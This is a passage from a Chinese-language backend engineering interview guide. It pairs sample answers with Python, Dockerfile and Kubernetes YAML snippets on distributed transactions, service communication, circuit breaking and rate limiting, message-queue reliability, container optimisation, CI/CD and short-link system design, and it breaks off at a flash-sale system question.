

**面试话术**：

"分布式事务是分布式系统中最难的问题之一。单机事务靠的是数据库的 WAL + undo log + 锁机制在毫秒级完成，但一旦涉及到多个独立的服务或数据库实例，就没有免费的原子性了。

**2PC（两阶段提交）** 是强一致性方案：协调者先问所有参与者能不能提交（Prepare 阶段），大家都回复 OK 后，协调者再发出 Commit 指令。问题是 Prepare 阶段所有参与者都会锁定资源，如果协调者崩溃了，参与者就一直阻塞等待——这就是所谓的**单点故障和阻塞问题**。XA 事务是 2PC 的一种实现，数据库都支持，但生产环境很少用——性能太差，而且协调者挂了一切都卡住。

**TCC（Try-Confirm-Cancel）** 是对 2PC 的改进：Try 阶段预留资源但不锁定，Confirm 阶段真正执行，Cancel 阶段释放预留。TCC 对业务代码的侵入性很大——你需要为每个操作都写 Try/Confirm/Cancel 三个方法，但它的一致性最强。适合资金转账这种不能容忍不一致的场景。

**本地消息表 + 定时补偿** 是我在生产中最常用的方案。核心思想是把分布式事务拆解成多个本地事务 + 异步消息。订单服务和库存服务各自在本地数据库中有一个消息表。订单创建时，在同一个本地事务里同时写入订单记录和一条'待发送'消息。后台定时任务扫描这个表，把消息投递到消息队列。库存服务消费消息，在自己的本地事务里扣减库存并写一条'已消费'记录。如果有消息一直没被消费，定时对账程序会发现并触发补偿。

这种方案的核心是**放弃强一致性，追求最终一致性**。它不是完美的——在补偿完成之前，数据是不一致的。但对于 99% 的互联网业务来说，几秒甚至几分钟的最终一致是可以接受的。真正需要强一致的场景你也不应该拆成微服务。

还有一个关键点是**幂等性**。在最终一致性的方案里，消息可能会重复投递（At Least Once），你的消费逻辑必须幂等——通过唯一键或者业务状态机来判断是否已经处理过。"

---

### Q21: 微服务间通信——REST vs gRPC vs 消息队列

```python
# ===== gRPC Proto 定义 =====
# order.proto
"""
syntax = "proto3";

service OrderService {
  rpc CreateOrder (CreateOrderRequest) returns (CreateOrderResponse);
  rpc GetOrder (GetOrderRequest) returns (Order);
}

message CreateOrderRequest {
  int64 user_id = 1;
  repeated OrderItem items = 2;
}

message OrderItem {
  int64 product_id = 1;
  int32 quantity = 2;
  double unit_price = 3;
}

message CreateOrderResponse {
  int64 order_id = 1;
  string order_no = 2;
}
"""

# ===== gRPC 服务端实现 =====
import grpc
from concurrent import futures
import order_pb2, order_pb2_grpc

class OrderServicer(order_pb2_grpc.OrderServiceServicer):
    def CreateOrder(self, request, context):
        # request 是强类型的 protobuf 对象
        total = sum(item.quantity * item.unit_price for item in request.items)
        order = Order.objects.create(
            user_id=request.user_id,
            total_amount=total,
            actual_amount=total
        )
        return order_pb2.CreateOrderResponse(order_id=order.id, order_no=order.order_no)

# 启动 gRPC 服务器
server = grpc.server(futures.ThreadPoolExecutor(max_workers=10))
order_pb2_grpc.add_OrderServiceServicer_to_server(OrderServicer(), server)
server.add_insecure_port('[::]:50051')
server.start()

# ===== gRPC 客户端调用 =====
channel = grpc.insecure_channel('order-service:50051')
stub = order_pb2_grpc.OrderServiceStub(channel)
response = stub.CreateOrder(order_pb2.CreateOrderRequest(
    user_id=12345,
    items=[order_pb2.OrderItem(product_id=1, quantity=2, unit_price=99.0)]
))
```

**面试话术**：

"微服务间的通信方式选择，我遵循一个简单的决策树：

**同步调用场景**：如果需要立即拿到结果（比如用户下单后要看到订单详情），用同步调用。内部服务间我更倾向于 gRPC——它基于 HTTP/2 多路复用，用 Protobuf 序列化比 JSON 小了 3-10 倍，而且强类型的接口定义本身就是一份文档。REST API 更适合对外暴露接口或者跨语言调用——HTTP/JSON 是任何语言和框架都天然支持的。

gRPC 的性能优势来自于两层：传输层 HTTP/2 的多路复用解决了 HTTP/1.1 的队头阻塞问题，一个 TCP 连接可以同时传输多个请求；序列化层 Protobuf 是二进制格式，对比 JSON 少了花括号、引号和字段名这些冗余字节。但要注意 gRPC 的客户端负载均衡——默认是单连接单后端，需要在客户端侧做连接池或者用 Service Mesh 来做负载均衡。

**异步通知场景**：如果调用方不需要立即拿到结果（比如下单后通知库存系统扣库存），用消息队列。Kafka 适合大数据量的日志和事件流，RabbitMQ 适合需要复杂路由规则和 ACK 确认的业务消息。消息队列的本质作用是**解耦**和**削峰**——生产者只管往队列里扔消息，消费者按自己的处理能力消费。当出现流量高峰时，队列充当缓冲区，不会压垮下游。

**一个常见的错误**：把消息队列当成同步 RPC 的替代——发了消息然后轮询等结果。这不仅没有发挥异步的优势，还增加了系统复杂度。正确的设计是：同步的归同步，异步的归异步，不要混用。"

---

### Q22: 服务容错——熔断、降级、限流的实现



```python
# ===== 简单熔断器实现 =====
import time
from enum import Enum

class CircuitState(Enum):
    CLOSED = 1       # 正常，请求通过
    OPEN = 2         # 熔断，直接拒绝
    HALF_OPEN = 3    # 半开，尝试放行少量请求

class CircuitBreaker:
    """熔断器原理实现（面试展示用）

    ⚠️ 生产环境不要自己写——三态切换、统计窗口、半开限流这些边界条件比自己想象的复杂得多。
    Python: pybreaker（pip install pybreaker），failsafe（pip install failsafe）
    Java:  Resilience4j（Hystrix 已停维，不推荐再用）
    云原生: 直接用 Service Mesh（Istio/Envoy）的熔断功能，应用代码零侵入
    """
    def __init__(self, failure_threshold=5, timeout=30, half_open_max=3):
        self.failure_threshold = failure_threshold  # 连续失败 N 次触发熔断
        self.timeout = timeout                       # OPEN 状态持续秒数
        self.half_open_max = half_open_max           # HALF_OPEN 最多放行请求数
        self.state = CircuitState.CLOSED
        self.failure_count = 0
        self.last_failure_time = 0
        self.half_open_count = 0

    def call(self, func, *args, **kwargs):
        if self.state == CircuitState.OPEN:
            if time.time() - self.last_failure_time > self.timeout:
                self.state = CircuitState.HALF_OPEN
                self.half_open_count = 0
            else:
                raise Exception("熔断器已打开")

        if self.state == CircuitState.HALF_OPEN:
            self.half_open_count += 1
            if self.half_open_count > self.half_open_max:
                raise Exception("半开状态已达最大试探次数")

        try:
            result = func(*args, **kwargs)
            self._on_success()
            return result
        except Exception as e:
            self._on_failure()
            raise e

    def _on_success(self):
        self.state = CircuitState.CLOSED
        self.failure_count = 0

    def _on_failure(self):
        self.failure_count += 1
        self.last_failure_time = time.time()
        if self.failure_count >= self.failure_threshold:
            self.state = CircuitState.OPEN


# ===== 实际开发中直接用 pybreaker（熔断器） =====
# pip install pybreaker
import pybreaker

# 一行创建熔断器：5 次失败打开，30 秒后进入半开
breaker = pybreaker.CircuitBreaker(
    fail_max=5,
    reset_timeout=30
)

@breaker  # 装饰器语法，和自定义的一样简洁
def call_downstream_service():
    resp = requests.get("http://inventory-service/api/stock", timeout=5)
    if resp.status_code >= 500:
        raise Exception("下游服务异常")
    return resp.json()

# pybreaker 自动统计成功/失败 → 触发 Open → 等待 → Half-Open 试探 → 恢复 Closed
# 比手写三态状态机可靠 10 倍——它处理了并发统计、时钟差异、状态持久化等边界条件


# ===== 滑动窗口限流（Redis，原理展示） =====
def is_rate_limited(redis, key, max_requests, window_seconds):
    """滑动窗口限流原理实现（面试展示用）

    ⚠️ 生产环境直接用成熟方案，不要重复造轮子：
    Django: 用 DRF 内置的 throttling（AnonRateThrottle / UserRateThrottle），或 django-ratelimit
    Flask:  flask-limiter（@limiter.limit("100/hour")）
    网关层: Nginx limit_req_zone / Kong / APISIX 的限流插件
    微服务:  Sentinel / Resilience4j RateLimiter
    分布式:  Redis + Lua 的滑动窗口（我们刚才写的就是这个原理，但生产用 redis-py 的 rate-limit 封装）
    """
    now = time.time()
    window_start = now - window_seconds

    lua = """
    redis.call('ZREMRANGEBYSCORE', KEYS[1], 0, ARGV[1])
    local count = redis.call('ZCARD', KEYS[1])
    if count < tonumber(ARGV[2]) then
        redis.call('ZADD', KEYS[1], ARGV[3], ARGV[3] .. ':' .. count)
        redis.call('EXPIRE', KEYS[1], ARGV[4])
        return 1
    end
    return 0
    """
    allowed = redis.eval(lua, 1, key, window_start, max_requests, now, window_seconds + 1)
    return not bool(allowed)


# ===== 实际开发中直接用库 =====

# 方式 1：DRF 内置限流（Django 项目首选，零额外依赖）
# settings.py 配置
REST_FRAMEWORK = {
    'DEFAULT_THROTTLE_CLASSES': [
        'rest_framework.throttling.AnonRateThrottle',    # 匿名用户
        'rest_framework.throttling.UserRateThrottle',    # 认证用户
    ],
    'DEFAULT_THROTTLE_RATES': {
        'anon': '100/hour',    # 匿名用户每小时 100 次
        'user': '1000/hour',   # 认证用户每小时 1000 次
    }
}
# 类视图限流
class OrderView(APIView):
    throttle_classes = [UserRateThrottle]  # 只对认证用户限流
# DRF 内部用 Django cache 框架（可配置为 Redis），自动计数 + 过期

# 方式 2：django-ratelimit（基于视图装饰器，粒度更细）
# pip install django-ratelimit
from django_ratelimit.decorators import ratelimit

@ratelimit(key='user', rate='100/h', method='POST', block=True)
def create_order(request):
    ...  # 超出限制自动返回 429 Too Many Requests

# 方式 3：flask-limiter（Flask 项目首选）
# pip install flask-limiter
from flask_limiter import Limiter
limiter = Limiter(app, key_func=lambda: request.remote_addr)

@app.route('/api/order')
@limiter.limit("100 per hour")
def create_order():
    ...  # 超出限制自动返回 429

# DRF throttling 背后用的就是 Redis + 滑动窗口，
# 和我们手写的 Lua 脚本原理完全一样——只是经过了充分测试和生产验证
```

**面试话术**：

"这三个概念经常一起提到，但各自解决不同层面的问题。

**限流**是防御性的——系统入口处就控制流量，像大坝泄洪。限流算法从简单到复杂：最简单的固定窗口计数器（有临界点突发问题）→ 滑动窗口（解决了临界点但实现复杂）→ 令牌桶（最平滑，允许一定的突发）→ 漏桶（强制匀速，适合保护下游）。Sentinel 和 Guava RateLimiter 都提供了成熟的实现，不要自己从零写限流算法——边界条件太多。

**熔断**是检测性的——当它发现下游服务持续失败时，主动切断调用链路，给下游恢复的时间。它的状态机是关键：Closed（正常转发）→ 失败 N 次 → Open（直接拒绝）→ 等待 M 秒 → Half-Open（试探性放行少数请求）→ 成功则回 Closed，失败则回 Open。Netflix Hystrix 是这个模式的鼻祖，但现在大多迁移到了 Sentinel 或 Resilience4j。核心参数需要根据业务调优：失败阈值太低会导致抖动，太高则熔断响应不及时。

**降级**是策略性的——当系统压力过大或者部分功能不可用时，主动关闭非核心功能以保证核心链路可用。比如双 11 期间关闭'查看历史订单'功能、关闭推荐算法（用缓存结果代替实时计算）。降级的关键是：提前规划好哪些是可以降级的（定义好 fallback 函数），而不是等到系统崩溃了才临时决定。

三者组合使用的典型案例：网关层限流（1000 QPS/服务）→ 服务调用时熔断保护（连续 5 次超时就熔断 30 秒）→ 熔断期间走降级逻辑（返回缓存数据或默认值）。三层防护，逐级兜底。"

---

### Q23: 消息队列可靠性——如何保证消息不丢、不重复、有序

**面试话术**：

"消息可靠性是三个维度的问题：**不丢**、**不重**、**不乱**。

**不丢消息**需要在三个环节做防护：

- **生产端**：用同步发送 + 回调确认。Kafka 里设置 `acks=all` 意味着 ISR 中所有副本都写入了才算成功；RocketMQ 的同步刷盘也是同样的道理。异步发送虽然快，但如果 Producer 进程崩溃了，缓冲区里没发出去的消息就丢了。对于核心业务，我倾向于同步发送——多几十毫秒的延迟换取 100% 的消息可靠性，是值得的。

- **Broker 端**：多副本 + 最小 ISR。Kafka 一个 Partition 有多个副本，只有 ISR（In-Sync Replicas）中的副本才算可靠。`min.insync.replicas=2` 保证至少两个副本确认写入，`unclean.leader.election.enable=false` 保证不会选出一个落后太多的 ISR 外副本当 Leader。

- **消费端**：处理完再提交 offset。Kafka 默认是自动提交（`enable.auto.commit=true`），每 5 秒提交一次。如果消费者在处理消息时崩溃了，已提交的 offset 之后的消息会被跳过——这就是丢消息。改成手动提交，在业务逻辑处理完成并落库之后，再 `consumer.commitSync()`。

**不重复**靠的是幂等性。Kafka 本身提供 Exactly Once 语义（事务），但代价是性能下降 30-50%。大多数场景下 At Least Once + 消费者幂等更实用。幂等的实现方式：数据库唯一约束最简单可靠；Redis 的 SETNX 也可以，但要注意 Redis 本身不是强一致的；业务状态机——支付回调里判断订单已经是'已支付'就不再处理。

**有序性**要求同一个业务实体的消息必须发到同一个 Partition。Kafka 只保证单个 Partition 内有序。所以如果订单的下单、支付、发货消息需要有序处理，就把 order_id 作为 Partition Key，确保同一个订单的所有消息都在同一个 Partition。消费者端也要单线程消费，或者至少保证同一个 Partition 的消息不被并发处理。"

---

## 六、Docker & Kubernetes

### Q24: Docker 镜像优化——从 800MB 到 150MB

```dockerfile
# ===== 优化前：简单的单阶段构建（~800MB） =====
FROM python:3.11
COPY . /app
WORKDIR /app
RUN pip install -r requirements.txt
CMD ["gunicorn", "config.wsgi"]

# ===== 优化后：多阶段 + 非 root 用户 + 精简层（~150MB） =====
# Stage 1: 编译依赖
FROM python:3.11-slim-bookworm AS builder
RUN apt-get update && apt-get install -y --no-install-recommends \
    gcc default-libmysqlclient-dev && \
    rm -rf /var/lib/apt/lists/*
COPY requirements.txt .
RUN pip install --user --no-cache-dir -r requirements.txt

# Stage 2: 运行时
FROM python:3.11-slim-bookworm
# 非 root 用户
RUN groupadd -r django && useradd -r -g django django
# 仅安装运行时库（不需要 gcc）
RUN apt-get update && apt-get install -y --no-install-recommends \
    libmariadb-dev-compat curl && \
    rm -rf /var/lib/apt/lists/*
# 从编译阶段复制已安装的依赖
COPY --from=builder /root/.local /home/django/.local
ENV PATH="/home/django/.local/bin:$PATH"
COPY --chown=django:django src/ /app/
WORKDIR /app
USER django
HEALTHCHECK --interval=30s --timeout=3s \
    CMD curl -f http://localhost:8000/health/ || exit 1
CMD ["gunicorn", "config.wsgi:application", "-c", "gunicorn.conf.py"]
```

**面试话术**：

"Docker 镜像优化不是玄学，有几个确定有效的方向：

**基础镜像的选择**影响最大。`python:3.11` 基于完整的 Debian，约 900MB；`python:3.11-slim` 去掉了编译工具和文档，约 150MB；`python:3.11-alpine` 最精简约 50MB，但用 musl libc 代替 glibc，有些 Python 包（如 lxml、Pillow）的 C 扩展会编译失败。

**多阶段构建**是标准做法——编译阶段保留 gcc、头文件等编译依赖，运行阶段只保留编译产物。两个 `FROM` 之间互不干扰，最终镜像只包含第二个 `FROM` 的内容。

**层合并**：每个 `RUN` 指令产生一个新层，所以 `RUN apt-get update` 和 `RUN apt-get install` 分开写会产生两个层。合并成一条并加上 `rm -rf /var/lib/apt/lists/*` 清理 apt 缓存。

**`.dockerignore`**：`COPY . /app` 如果不配合 `.dockerignore`，会把 `.git`、`__pycache__`、`node_modules`、`.env` 等全部打进去。这些文件对运行无用——浪费空间——而且可能泄露密钥。

**非 root 运行**：默认容器内是 root，如果你的应用有命令注入漏洞，攻击者可以直接拿到宿主机的 root 权限（如果没做其他隔离）。在 Dockerfile 最后 `USER django` 是一个必须的安全基线。"

---

### Q25: K8s Pod 调度——从打标签到亲和性策略

```yaml
# ===== 1. 打标签 =====
# kubectl label node k8s-worker-01 disk-type=ssd
# kubectl label node k8s-worker-02 disk-type=ssd
# kubectl label node k8s-worker-03 node-role=compute

# ===== 2. nodeSelector: 数据库跑在 SSD 节点上 =====
apiVersion: apps/v1
kind: Deployment
metadata:
  name: mysql
spec:
  template:
    spec:
      nodeSelector:
        disk-type: ssd        # 只调度到有 SSD 标签的节点

# ===== 3. nodeAffinity: 更强的约束 =====
      affinity:
        nodeAffinity:
          requiredDuringSchedulingIgnoredDuringExecution:  # 硬约束
            nodeSelectorTerms:
              - matchExpressions:
                  - key: disk-type
                    operator: In
                    values: [ssd, nvme]
          preferredDuringSchedulingIgnoredDuringExecution:  # 软偏好
            - weight: 100
              preference:
                matchExpressions:
                  - key: node-zone
                    operator: In
                    values: [zone-a]

# ===== 4. podAntiAffinity: Pod 分散到不同节点 =====
        podAntiAffinity:
          requiredDuringSchedulingIgnoredDuringExecution:
            - labelSelector:
                matchLabels:
                  app: django-app
              topologyKey: kubernetes.io/hostname

# ===== 5. Taints & Tolerations: 独占节点 =====
# kubectl taint node k8s-worker-01 dedicated=mysql:NoSchedule
      tolerations:
        - key: dedicated
          operator: Equal
          value: mysql
          effect: NoSchedule

# ===== 6. topologySpreadConstraints: 均匀分布 =====
      topologySpreadConstraints:
        - maxSkew: 1
          topologyKey: topology.kubernetes.io/zone
          whenUnsatisfiable: DoNotSchedule
          labelSelector:
            matchLabels:
              app: django-app
```

**面试话术**：

"K8s 的调度策略从简到繁有四个层次：

**第一层 nodeSelector**：最简单的标签匹配。适合'数据库必须跑在 SSD 节点'这种硬性要求。但功能有限——只能做等值匹配，不能做 In/NotIn/Exists 这类集合运算。

**第二层 nodeAffinity**：支持更丰富的操作符和 **required（硬约束）** vs **preferred（软偏好）** 的区分。硬约束——'这个 Pod 只能跑在有 GPU 的节点上'；软偏好——'尽量放在 zone-a 节点上，没有的话 zone-b 也行'。软偏好的 weight 决定了多个偏好的优先级。

**第三层 podAffinity/podAntiAffinity**：Pod 和 Pod 之间的关系。Pod 反亲和让同一个服务的副本分散到不同节点——如果某个节点宕机，其他节点上的副本继续服务。Pod 亲和让频繁通信的服务部署在同一个节点或同一个机架——减少网络延迟。topologyKey 决定了'分散'的粒度——`kubernetes.io/hostname` 是按节点分散，`topology.kubernetes.io/zone` 是按可用区分散。

**第四层 Taints & Tolerations**：用于**排斥**而不是吸引。给节点打上 `NoSchedule` 污点后，没有对应容忍的 Pod 就不能调度上去。经典用法：给 GPU 节点打 `nvidia.com/gpu:NoSchedule` 污点，只有申请了 GPU 资源的 Pod 有对应的 Toleration 才能上去，避免普通 Pod 占用宝贵的 GPU 资源。

一个常见混淆：nodeSelector 和 Taints 的区别是什么？nodeSelector 是'我想去这里'，Taints 是'别人不能来'。两者组合才能实现'某些 Pod 独占某些节点'的效果。"

---

### Q26: K8s 滚动更新——零停机的完整链路



**面试话术**：

"零停机部署不是改几行 YAML 就能实现的，它是一条完整的链路。

**第一步：健康检查**。零停机的基础是 K8s 知道什么时候 Pod 是真正 Ready 的。这里面的关键是 readinessProbe 和 livenessProbe 的分工：readinessProbe 决定 Pod 是否接收流量——启动时可能依赖数据库还没连上，readinessProbe 失败意味着 Pod 不会被加入 Service 的 Endpoints，不会收到请求；livenessProbe 决定 Pod 是否需要被重启——如果应用死锁了或者 OOM 了，livenessProbe 失败意味着 Kubelet 会杀掉 Pod 重新创建。

**第二步：滚动更新策略**。`maxUnavailable=0` 保证更新期间任何时刻都有足够的副本在运行。`maxSurge=1` 让 K8s 先启动一个新 Pod 再停止一个旧 Pod。有了这两个参数，更新过程中：先启动新 Pod → 新 Pod 通过 readinessProbe → 加入 Service Endpoints → 摘除一个旧 Pod → 旧 Pod 处理完现有连接 → 终止旧 Pod → 启动下一个新 Pod。这个过程从头到尾至少有三个副本在运行。

**第三步：优雅关闭**。当 K8s 决定终止一个 Pod 时，它同时做了两件事：从 Service Endpoints 中移除 Pod（不再转发新请求），向容器发送 SIGTERM 信号。但这中间有**时间窗**——Endpoints 更新是通过 kube-proxy 推送 iptables 规则完成的，可能需要几秒钟。所以 Pod 里的应用收到 SIGTERM 后不能立即退出，应该先 `sleep 10` 等待现有连接处理完。这就是 Pod spec 中 `terminationGracePeriodSeconds` 和 `preStop` hook 的作用。

**第四步：Deployment 回滚**。`kubectl rollout undo` 可以瞬间回滚到上一个版本。它的原理是 Deployment 保留了历史的 ReplicaSet（默认 10 个），回滚只是切换 active ReplicaSet。这是 K8s 最优雅的设计之一——你不需要重新构建镜像或重新部署，回滚和部署一样快。

**最容易被忽视的点**：数据库迁移不能在滚动更新时自动执行。新版本的代码可能依赖新的表结构，但旧版本的 Pod 还在跑，如果迁移脚本改动了旧版本不兼容的结构（比如删除了一个列），旧 Pod 就会报错。解决方案是：数据库迁移必须是向后兼容的（只加列，不删不改），或者在做破坏性变更时分两步部署。"

---

## 七、CI/CD 与 DevOps

### Q27: 完整的 CI/CD 流水线设计



**面试话术**：

"一条生产级的 CI/CD 流水线我把它分成七个阶段：

**阶段 1：代码提交触发**。Git push 到主分支或提 PR 时触发流水线。PR 的 CI 只做编译检查和单元测试（不部署），合并后才走完整流水线。

**阶段 2：并行质量检查**。这个阶段并行执行三个任务——代码风格检查（flake8 / black / isort）、单元测试（pytest + coverage）、和依赖安全扫描（`pip-audit` 或 Safety）。每个任务不该超过 5 分钟，合在一起控制在 5 分钟内。如果单元测试需要启动数据库，用 `pytest-django` 的 `--reuse-db` 或者 Docker Compose 起临时数据库。

**阶段 3：SonarQube 质量门禁**。检出覆盖率不足、重复代码、安全漏洞、代码异味四类问题。设置质量门——单元测试覆盖率低于 80% 阻止构建，严重漏洞阻止构建。这个阶段的目的是把问题拦截在合并之前而不是上线之后。

**阶段 4：镜像构建与推送**。关键点是：容器内不装 dev 依赖、用多阶段构建、推送到私有仓库 Harbor。我倾向于用 Kaniko 而不是 `docker build`——Kaniko 是 Google 开发的，不需要 Docker daemon，能在没有特权模式的容器中构建镜像，安全性更高。

**阶段 5：部署到预发布环境**。先在 Staging 环境部署，跑自动化回归测试和性能测试。性能测试用 Locust 或 JMeter 跑 5 分钟基准负载，对比上次的 P99 延迟，如果退化超过 20% 就告警。

**阶段 6：金丝雀发布**。先部署一个新版本的 Deployment 作为金丝雀实例，将 10% 的流量路由到它上面。观察 5-10 分钟——错误率、延迟、CPU、内存——如果一切正常，进入全量发布。如果有异常，自动回滚——把金丝雀的流量切回正式 Deployment。

**阶段 7：全量发布与冒烟测试**。全量更新正式 Deployment 的镜像，确认 deployment status 为 Available 后，立刻运行一组冒烟测试——健康检查 + 核心 API 的 200 响应 + 关键业务流程的端到端验证。如果冒烟测试失败，立刻 `kubectl rollout undo`。

每个阶段都有对应的告警——Slack 通知成功，PagerDuty 通知失败。失败的流水线保留完整日志和产物便于排查。"

---

## 八、系统设计

### Q28: 设计一个支持千万 QPS 的短链接系统

**面试话术**：

"短链接系统的核心是把长 URL 映射到一个短码，然后通过短码重定向。但设计的深度体现在如何支持海量数据和高并发。

**短码生成我选择自增 ID + Base62 编码**。为什么不用 MD5 截取？因为哈希碰撞。MD5 128 位，但截取前 7 位只有 62^7 ≈ 3.5 万亿种可能，对于亿级别的短链接碰撞概率不可忽略。自增 ID 天然无碰撞，再转成 Base62（0-9 + a-z + A-Z），7 个字符能表示 62^7 ≈ 3.5 万亿个链接，够用了。

**存储设计分两层**：热数据在 Redis，全量数据在 MySQL。Redis 存的是短码→原始 URL 的映射，给最常访问的链接提供亚毫秒级响应。MySQL 存全量数据加布隆过滤器。布隆过滤器的作用是拦截不存在短码的恶意请求——先判断短码是否可能存在，不存在直接返回 404，不需要查缓存也不需要查数据库。

**高并发处理**：一个 Redis 实例能扛 10 万 QPS，如果单日访问量达到 1 亿次（约 1200 QPS），单机足够。但如果 QPS 到十万级别，Redis 集群可以按短码的第一位字符做分片——短码是 7 位 Base62，第一位有 62 种取值，分散到 62 个 Redis 实例上，每个实例扛自己那部分。Nginx/网关做一致性哈希路由到对应的 Redis。

**302 vs 301**：用 302 临时重定向而不是 301 永久重定向。301 会被浏览器缓存，下次直接跳转不经过我们的服务，这样我们就丢失了访问统计数据。

**安全性**：容易被用来隐藏钓鱼链接和恶意链接。我一般会做三层防护——生成链接时通过 Safe Browsing API 做 URL 安全检查、对敏感域名（如银行域名）做额外验证、访问量异常飙升时自动限流。"

---

### Q29: 设计一个秒杀系统

